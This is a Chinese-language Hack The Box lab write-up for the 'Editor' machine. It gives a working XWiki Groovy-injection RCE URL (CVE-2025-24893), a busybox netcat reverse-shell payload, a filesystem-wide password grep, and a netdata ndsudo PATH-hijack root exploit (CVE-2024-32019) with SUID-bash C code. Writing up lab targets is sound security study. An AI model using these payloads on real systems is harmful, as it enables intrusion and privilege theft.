

端口扫描 1 2 3 4 5 6 7 8 9 10 11 12 13 14 ┌──(kali㉿kali)-[~/HTB/editor] └─$ sudo nmap -p- --min-rate 10000 10.10.11.80 -oA ports [sudo ] password for kali: Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-19 09:19 CST Warning: 10.10.11.80 giving up on port because retransmission cap hit (10). Nmap scan report for editor.htb (10.10.11.80) Host is up (5.7s latency). Not shown: 45867 closed tcp ports (reset), 19665 filtered tcp ports (no-response) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http 8080/tcp open http-proxy Nmap done : 1 IP address (1 host up) scanned in 93.52 seconds
web 渗透 先访问 80 端口，发现被重定向到了 editor.htb 这个域名，因此把 editor.htb 加入到 hosts 文件里，然后访问:
在 web 主页面里面，有个叫 Documentation 的链接，对应的是 wiki.editor.htb 这个域名，也加入到 hosts 文件里，然后看看是什么内容：

发现是个 xwiki，而且上面有版本号，因而想到会不会是这个版本的 xwiki 有什么漏洞，所以就去搜了一下。
搜出来发现 xwiki 有个可以远程代码执行的 CVE ，是 CVE-2025-24893，我们的这个版本 15.10.8 刚好在受影响的版本里面:
通过下面的这个 payload ，可以简单验证一下这个漏洞：
1 http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
用 curl 验证一下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 ┌──(kali㉿kali)-[~] └─$ curl -s 'http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d' | lynx -stdin -dump <?xml version="1.0" encoding="UTF-8" ?> <rss xmlns:dc="[1]http://purl.org/dc/elements/1.1/" version="2.0" > <channel> <title>RSS feed for search on [}}}root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync :x:4:65534:sync :/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-network:x:101:102:systemd Network Management[,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:102:103:systemd Resolver],:/run/systemd:/usr/sbin/nologin messagebus:x:103:104::/nonexistent:/usr/sbin/nologin systemd-timesync:x:104:105:systemd Time Synchronization[,:/run/systemd:/usr/sbin/nologin pollinate:x:105:1::/var/cache/pollinate:/bin/false sshd:x:106:65534::/run/sshd:/usr/sbin/nologin syslog:x:107:113::/home/syslog:/usr/sbin/nologin uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin tss:x:110:116:TPM software stack],:/var/lib/tpm:/bin/false landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin fwupd-refresh:x:112:118:fwupd-refresh user[,:/run/systemd:/usr/sbin/nologin usbmux:x:113:46:usbmux daemon],:/var/lib/usbmux:/usr/sbin/nologin lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false dnsmasq:x:114:65534:dnsmasq[,:/var/lib/misc:/usr/sbin/nologin mysql:x:115:121:MySQL Server],:/nonexistent:/bin/false tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat:/usr/sbin/nologin xwiki:x:997:997:XWiki:/var/lib/xwiki:/usr/sbin/nologin netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin oliver:x:1000:1000:[,:/home/oliver:/bin/bash _laurel:x:995:995::/var/log/laurel:/bin/false]]</title> <link >[2]http://wiki.editor.htb:80/xwiki/bin/view/Main/SolrSearch?t ext=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln %28%22cat%20%2Fetc%2Fpasswd%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D% 7D%7B%7B%2Fasync%7D%7D</link> <description>RSS feed for search on [}}}root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync :x:4:65534:sync :/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-network:x:101:102:systemd Network Management[,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:102:103:systemd Resolver],:/run/systemd:/usr/sbin/nologin messagebus:x:103:104::/nonexistent:/usr/sbin/nologin systemd-timesync:x:104:105:systemd Time Synchronization[,:/run/systemd:/usr/sbin/nologin pollinate:x:105:1::/var/cache/pollinate:/bin/false sshd:x:106:65534::/run/sshd:/usr/sbin/nologin syslog:x:107:113::/home/syslog:/usr/sbin/nologin uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin tss:x:110:116:TPM software stack],:/var/lib/tpm:/bin/false landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin fwupd-refresh:x:112:118:fwupd-refresh user[,:/run/systemd:/usr/sbin/nologin usbmux:x:113:46:usbmux daemon],:/var/lib/usbmux:/usr/sbin/nologin lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false dnsmasq:x:114:65534:dnsmasq[,:/var/lib/misc:/usr/sbin/nologin mysql:x:115:121:MySQL Server],:/nonexistent:/bin/false tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat:/usr/sbin/nologin xwiki:x:997:997:XWiki:/var/lib/xwiki:/usr/sbin/nologin netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin oliver:x:1000:1000:[,:/home/oliver:/bin/bash _laurel:x:995:995::/var/log/laurel:/bin/false]]</description> <language>en</language> <copyright /> <dc:creator>XWiki</dc:creator> <dc:language>en</dc:language> <dc:rights /> </channel> </rss> References 1. http://purl.org/dc/elements/1.1/ 2. http://wiki.editor.htb/xwiki/bin/view/Main/SolrSearch?text=}}}{{async async=false }}{{groovy}}println("cat /etc/passwd" .execute().text){{/groovy}}{{/async}}
可以看到中间是返回了 /etc/passwd 的内容的，说明这个漏洞有效。
获取立足点 我们可以把刚才的 payload 里的代码执行的部分，换成我们自己的反弹 shell ，这样应该就可以弹 shell 回来了。
尝试了 nc、bash、SOCAT、msfvenom 等弹 shell 方法，都没有成功，最后用 busybox nc 反弹成功了：
1 2 ┌──(kali㉿kali)-[~/HTB/editor] └─$ curl 'http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22busybox%20nc%20{YOUR_IP}%201234%20-e%20sh%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d'
上面的 YOUR_IP 就是我们自己的 ip 地址。
接收到了反弹 shell ：
1 2 3 4 5 6 ┌──(kali㉿kali)-[~/HTB/editor] └─$ nc -nvlp 1234 Listening on 0.0.0.0 1234 Connection received on 10.10.11.80 33762 python3 -c "import pty;pty.spawn('/bin/bash')" xwiki@editor:/usr/lib/xwiki-jetty$
提权 我们是 xwiki 用户，在 home 里面有个用户叫 oliver ，但是我们进不去：
1 2 3 4 5 6 7 8 9 10 11 12 xwiki@editor:/usr/lib/xwiki-jetty$ whoami whoami xwiki xwiki@editor:/usr/lib/xwiki-jetty$ cd /home cd /homexwiki@editor:/home$ ls ls oliver xwiki@editor:/home$ cd oliver cd oliverbash: cd : oliver: Permission denied xwiki@editor:/home$
尝试一些基本的提权思路， sudo -l 、查看 /etc/crontab 、查看 env 等等，都没啥东西。
想到可能在哪里存在着密码，因此收集了一下密码：
1 2 3 4 5 6 xwiki@editor:/usr/lib/xwiki-jetty$ grep -rnoP 'password.{0,20}' / 2>/dev/null ………… ………… /etc/xwiki/hibernate.cfg.xml:104:password">theEd1t0rTeam99</p /etc/xwiki/hibernate.cfg.xml:129:password" >xwiki</property>/etc/xwiki/hibernate.cfg.xml.ucf-dist:104:password">xwikipassword2025<
发现了三个密码，经过尝试发现，theEd1t0rTeam99 是 oliver 用户的密码，ssh 登录：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 ┌──(kali㉿kali)-[~/HTB/editor] └─$ ssh oliver@editor.htb oliver@editor.htb's password: Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-151-generic x86_64) * Documentation: https://help.ubuntu.com * Management: https://landscape.canonical.com * Support: https://ubuntu.com/pro System information as of Tue Aug 19 01:35:57 AM UTC 2025 System load: 0.05 Processes: 233 Usage of /: 71.0% of 7.28GB Users logged in: 0 Memory usage: 54% IPv4 address for eth0: 10.10.11.80 Swap usage: 0% Expanded Security Maintenance for Applications is not enabled. 4 updates can be applied immediately. To see these additional updates run: apt list --upgradable 4 additional security updates can be applied with ESM Apps. Learn more about enabling ESM Apps service at https://ubuntu.com/esm The list of available updates is more than a week old. To check for new updates run: sudo apt update Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings oliver@editor:~$ ls user.txt oliver@editor:~$ cat user.txt 36fa3c9304f3a9a904889e19d4a68b46 oliver@editor:~$
oliver 用户 sudo -l 仍然没有东西。
查找一下具有 SUID 权限的文件:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 oliver@editor:~$ find / -perm -4000 2>/dev/null /opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network /opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin /opt/netdata/usr/libexec/netdata/plugins.d/local-listeners /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo /opt/netdata/usr/libexec/netdata/plugins.d/ioping /opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin /opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin /usr/bin/newgrp /usr/bin/gpasswd /usr/bin/su /usr/bin/umount /usr/bin/chsh /usr/bin/fusermount3 /usr/bin/sudo /usr/bin/passwd /usr/bin/mount /usr/bin/chfn /usr/lib/dbus-1.0/dbus-daemon-launch-helper /usr/lib/openssh/ssh-keysign /usr/libexec/polkit-agent-helper-1 oliver@editor:~$
发现了几个在 /opt/netdata 这个不太寻常的目录的文件，看一下他们的权限等信息:
1 2 3 4 5 oliver@editor:~$ ls -liah /opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network 49126 -rwsr-x--- 1 root netdata 943K Apr 1 2024 /opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network oliver@editor:~$ ls -liah /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo 49411 -rwsr-x--- 1 root netdata 196K Apr 1 2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo oliver@editor:~$
可以看到是一些在 netdata 用户组的，有 SUID 权限的文件。
看一下我们的用户组:
1 2 oliver@editor:/tmp$ id uid=1000(oliver) gid=1000(oliver) groups =1000(oliver),999(netdata)
我们刚好就在 netdata 这个用户组里，因此我们对这些文件有执行权限。所以，如果这些文件哪个有漏洞的话，我们说不定可以用这些程序来提权到 root。
经过搜索发现，ndsudo 这个程序刚好有本地提权漏洞，CVE-2024-32019。在这里 是这么说的：
1 2 该 ndsudo 工具被打包为一个 root 拥有权限的可执行文件，并设置了 SUID 位。 它仅运行一组有限的外部命令，但其搜索路径由环境变量提供PATH。这使得攻击者可以控制ndsudo这些命令的查找位置，而这些路径可能是攻击者具有写权限的路径。
意思就是说，这个 ndsudo 程序存在 PATH 劫持，我们可以修改环境变量 PATH ，然后把我们想执行的命令放到它要执行的 命令程序 上就好了。
我们先 -h 看看这个程序是怎么用的：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo -h ndsudo (C) Netdata Inc. A helper to allow Netdata run privileged commands. --test print the generated command that will be run, without running it. --help print this message. The following commands are supported: - Command : nvme-list Executables: nvme Parameters : list --output-format=json - Command : nvme-smart-log Executables: nvme Parameters : smart-log {{device}} --output-format=json - Command : megacli-disk-info Executables: megacli MegaCli Parameters : -LDPDInfo -aAll -NoLog - Command : megacli-battery-info Executables: megacli MegaCli Parameters : -AdpBbuCmd -aAll -NoLog - Command : arcconf-ld-info Executables: arcconf Parameters : GETCONFIG 1 LD - Command : arcconf-pd-info Executables: arcconf Parameters : GETCONFIG 1 PD The program searches for executables in the system path. Variables given as {{variable}} are expected on the command line as: --variable VALUE VALUE can include space, A-Z, a-z, 0-9, _, -, /, and . oliver@editor:~$
可以看到，说明里的 Command 应该是这个程序后跟的命令，Executables 应该是这个 Command 靠谁来执行？猜测是这样的。
先 ndsudo nvme-list 看看：
1 2 3 oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list nvme : not available in PATH. oliver@editor:~$
他说 nvme 不在环境变量里面，说明它应该是靠 nvme 这个命令来执行的 nvme-list。
那根据前面的漏洞描述，我们伪造一个 nvme，并且把环境变量改成我们伪造的文件存在的目录试试：
1 2 3 4 5 6 7 8 9 10 11 12 oliver@editor:~$ cd /tmp oliver@editor:/tmp$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' >nvme oliver@editor:/tmp$ chmod +x nvme oliver@editor:/tmp$ ls netdata-ipc systemd-private-6170d413b78c49dd8d1d9b1f52784de6-systemd-resolved.service-yUjcht nvme systemd-private-6170d413b78c49dd8d1d9b1f52784de6-systemd-timesyncd.service-M4Lfhd systemd-private-6170d413b78c49dd8d1d9b1f52784de6-ModemManager.service-NEiIAO systemd-private-6170d413b78c49dd8d1d9b1f52784de6-xwiki.service-6KeAcG systemd-private-6170d413b78c49dd8d1d9b1f52784de6-systemd-logind.service-vCq8Zq vmware-root_590-2688750742 oliver@editor:/tmp$ export PATH=/tmp:$PATH oliver@editor:/tmp$ echo $PATH /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin oliver@editor:/tmp$
现在我创建好了一个假的 nvme 和假的 PATH ，再 ndsudo nvme-list 试试：
1 2 3 oliver@editor:/tmp$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list execve: Exec format error oliver@editor:/tmp$
他这次说 Exec format error ，也就是他应该找到了我们创建的假的 nvme，但是他不能运行这个假的 nvme，又因为这里是 execve 报错，我就把这个情况仍给 Deepseek ，让他给我解答一下。
Deepseek 给我的解答是，如果想让 execve 成功执行这个文件，这个文件里面必须添加 Shebang 声明解释器 ，否则 execve 会报错。
那我们在假的 nvme 里面添加 #!/bin/sh 之后，再来试一下：
1 2 3 4 5 oliver@editor:/tmp$ cat nvme cp /bin/bash /tmp/bashchmod +s /tmp/basholiver@editor:/tmp$ chmod +x nvme
然后执行 ndsudo：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 oliver@editor:/tmp$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list oliver@editor:/tmp$ ls -liah total 1.4M 394838 drwxrwxrwt 8 root root 4.0K Aug 19 06:29 . 2 drwxr-xr-x 18 root root 4.0K Jul 29 11:55 .. 393318 -rwsr-sr-x 1 oliver oliver 1.4M Aug 19 06:29 bash 394418 srwxrwx--- 1 netdata netdata 0 Aug 18 19:35 netdata-ipc 393351 -rwxrwxr-x 1 oliver oliver 52 Aug 19 06:28 nvme 393522 drwx------ 3 root root 4.0K Aug 18 19:35 systemd-private-6170d413b78c49dd8d1d9b1f52784de6-ModemManager.service-NEiIAO 393363 drwx------ 3 root root 4.0K Aug 18 19:35 systemd-private-6170d413b78c49dd8d1d9b1f52784de6-systemd-logind.service-vCq8Zq 393355 drwx------ 3 root root 4.0K Aug 18 19:35 systemd-private-6170d413b78c49dd8d1d9b1f52784de6-systemd-resolved.service-yUjcht 393357 drwx------ 3 root root 4.0K Aug 18 19:35 systemd-private-6170d413b78c49dd8d1d9b1f52784de6-systemd-timesyncd.service-M4Lfhd 393362 drwx------ 3 root root 4.0K Aug 18 19:35 systemd-private-6170d413b78c49dd8d1d9b1f52784de6-xwiki.service-6KeAcG 393359 drwx------ 2 root root 4.0K Aug 18 19:36 vmware-root_590-2688750742 oliver@editor:/tmp$
可以看到这次执行没有报错，而且我们也获得了一个具有 SUID 权限的 bash。
但是！我突然发现，这个 bash 的所属用户，居然是 oliver，他不是 root ！
这就有意思了，用这个 bash -p，得到的也自然是 oliver 的权限，而不是 root 的。
为了测试看看这个脚本到底是谁执行的，我在 nvme 里面替换成 id 看看：
1 2 3 4 5 oliver@editor:/tmp$ cat nvme id oliver@editor:/tmp$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list uid=1000(oliver) gid=1000(oliver) groups =1000(oliver),999(netdata)
OK，他说他是 oliver ，不是 root ，那说明我们用这样的方法无法拿到 root 的权限。
按理来说，有 SUID 程序的劫持 PATH 的提权，构造一个 shebang 脚本就好了，但这里不行，不知道为什么。
为此，我去这里 看了一下 ndsudo 的代码。
可以看到，这段代码主要的漏洞点在这里:
1 char *path = getenv("PATH" );
他是直接从环境变量中拿的 path ，所以存在劫持。
他的修改在这里：
1 2 char new_path[] = "PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin" ;putenv(new_path);
也就是说，他自己在代码里面修改了一个新的 PATH 。
所以，如果我们把这两行删掉，应该就能获得一个有漏洞的 ndsudo 的版本了。
删掉上述两行修补漏洞的代码之后，我在本地的 kali 上装了一个新的 ndsudo ，并且用 shebang 脚本尝试提权：
1 2 3 4 5 6 7 8 9 10 ┌──(kali㉿kali)-[~/HTB/editor] └─$ ls -liah 1323470 -rwsr-x--- 1 root kali 72K Aug 28 11:19 ndsudo 1348060 -rw-rw-r-- 1 kali kali 13K Aug 28 11:18 ndsudo.c 1348051 -rwxrwxr-x 1 kali kali 23 Aug 28 2025 nvme 1348061 -rw-rw-r-- 1 kali kali 243 Aug 28 11:18 nvme.c ┌──(kali㉿kali)-[~/HTB/editor] └─$ cat nvme /bin/bash
执行 ndsudo ：
1 2 3 4 ┌──(kali㉿kali)-[~/HTB/editor] └─$ ./ndsudo nvme-list root@kali:/home/kali/HTB/editor# whoami root
提权成功了，不知道为什么靶机上的不太行，可能对源代码做了一些修改，或者是 linux 权限问题之类的。
既然靶机上的 shebang 脚本不能成功，那我们就造一个 ELF 文件去执行，应该是可以成功的。
nvme.c 的内容如下：
1 2 3 4 5 6 7 8 9 10 #include <stdio.h> #include <stdlib.h> #include <unistd.h> #include <sys/types.h> int main () { setuid(0 ); setgid(0 ); system("cp /bin/bash /tmp/bash;chmod +s /tmp/bash" ); return 0 ; }
在 x86-64 架构的机器上编译它，如果是 arm 架构的 macbook ，可以在 UTM 上创建一个 x86-64 的 linux 去进行编译。
把编译好的程序传进靶机里，构造假的 PATH ，执行 ndsudo ：
1 2 3 4 5 6 7 8 9 oliver@editor:/tmp$ chmod +x nvme oliver@editor:/tmp$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list oliver@editor:/tmp$ ls -liah total 2.2M 394838 drwxrwxrwt 8 root root 4.0K Aug 28 06:41 . 2 drwxr-xr-x 18 root root 4.0K Jul 29 11:55 .. 393351 -rwsr-sr-x 1 root root 1.4M Aug 28 06:41 bash 394418 srwxrwx--- 1 netdata netdata 0 Aug 28 03:22 netdata-ipc 393318 -rwxrwxr-x 1 oliver oliver 791K Aug 18 07:41 nvme
这次拿到的是具有 root 的 SUID 权限的 bash，用 bash -p 进行提权：
1 2 3 4 oliver@editor:/tmp$ /tmp/bash -p bash-5.1# whoami root bash-5.1#
拿 root flag ：
1 2 bash-5.1# cat root.txt 38661a9fa285cfd2465286e72644b3c5
补充 前面说到我去 github 上找了 ndsudo 的源码，然后在本地的 kali 上用 shebang 脚本提权成功了，但是靶机里面没有成功。
但我打完之后把靶机里的 ndsudo 拿出来用 IDA 看了一下，发现靶机里的 ndsudo 里面是没有 setuid(0) 的，但是 github 上的那个代码里面就有 setuid(0)，怪不得 github 上的代码就可以用 shebang 脚本提权成功…………